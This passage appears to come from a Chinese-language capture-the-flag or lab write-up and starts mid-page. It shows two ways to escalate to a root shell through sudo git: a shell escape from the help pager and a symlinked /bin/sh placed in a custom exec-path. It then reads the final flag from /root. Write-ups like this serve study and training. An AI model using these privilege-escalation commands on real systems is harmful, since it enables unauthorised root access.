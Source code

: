 

或者

```
sudo git branch --help config
!/bin/sh
```

![image-20250309141216930](./assets/image-20250309141216930.png)

![image-20250309141248498](./assets/image-20250309141248498.png)



或者

```
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

![image-20250309141358325](./assets/image-20250309141358325.png)





### 读取最后一个flag

```
cd /root
ls
cat /final-flag.txt
```
